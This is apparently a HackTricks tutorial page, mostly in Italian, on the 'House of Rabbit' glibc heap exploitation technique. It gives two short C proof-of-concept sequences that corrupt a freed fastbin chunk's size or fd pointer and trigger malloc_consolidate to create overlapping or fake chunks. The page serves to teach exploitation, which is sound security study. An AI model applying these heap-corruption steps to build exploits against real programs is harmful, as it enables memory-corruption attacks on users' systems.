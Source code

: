 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

### Requirements

1. **Capacità di modificare il puntatore o la dimensione del fast bin fd**: Questo significa che puoi cambiare il puntatore in avanti di un chunk nel fastbin o la sua dimensione.
2. **Capacità di attivare `malloc_consolidate`**: Questo può essere fatto allocando un grande chunk o unendo il chunk superiore, il che costringe l'heap a consolidare i chunk.

### Goals

1. **Creare chunk sovrapposti**: Avere un chunk che si sovrappone a un altro, consentendo ulteriori manipolazioni dell'heap.
2. **Falsificare chunk falsi**: Ingannare l'allocatore facendogli trattare un chunk falso come un chunk legittimo durante le operazioni sull'heap.

## Steps of the attack

### POC 1: Modificare la dimensione di un chunk fast bin

**Obiettivo**: Creare un chunk sovrapposto manipolando la dimensione di un chunk fastbin.

* **Passo 1: Allocare Chunk**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Allocchiamo due chunk di 0x40 byte ciascuno. Questi chunk saranno collocati nella lista fast bin una volta liberati.

* **Step 2: Free Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
We free both chunks, adding them to the fastbin list.

* **Passo 3: Modifica della dimensione del chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Passo 4: Attivare `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allocare un grande blocco attiva la funzione `malloc_consolidate`, unendo piccoli blocchi nel fast bin. La dimensione manipolata di `chunk1` provoca una sovrapposizione con `chunk2`.

Dopo la consolidazione, `chunk1` sovrappone `chunk2`, consentendo ulteriori sfruttamenti.

### POC 2: Modificare il puntatore `fd`

**Obiettivo**: Creare un blocco falso manipolando il puntatore `fd` del fast bin.

* **Passo 1: Allocare Blocchi**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Spiegazione**: Allochiamo due chunk, uno più piccolo e uno più grande, per preparare l'heap per il chunk falso.

* **Passo 2: Crea chunk falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Scriviamo metadati falsi del chunk in `chunk2` per simulare chunk più piccoli.

* **Passo 3: Libera `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Spiegazione**: Liberiamo `chunk1`, aggiungendolo alla lista fastbin.

* **Passo 4: Modifica `fd` di `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Spiegazione**: Cambiamo il puntatore forward (`fd`) di `chunk1` per puntare al nostro chunk falso all'interno di `chunk2`.

* **Passo 5: Attivare `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allocare un grande blocco attiva di nuovo `malloc_consolidate`, che elabora il blocco falso.

Il blocco falso diventa parte della lista fastbin, rendendolo un blocco legittimo per ulteriori sfruttamenti.

### Riepilogo

La tecnica **House of Rabbit** implica la modifica della dimensione di un blocco fast bin per creare blocchi sovrapposti o la manipolazione del puntatore `fd` per creare blocchi falsi. Questo consente agli attaccanti di forgiare blocchi legittimi nell'heap, abilitando varie forme di sfruttamento. Comprendere e praticare questi passaggi migliorerà le tue abilità di sfruttamento dell'heap.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
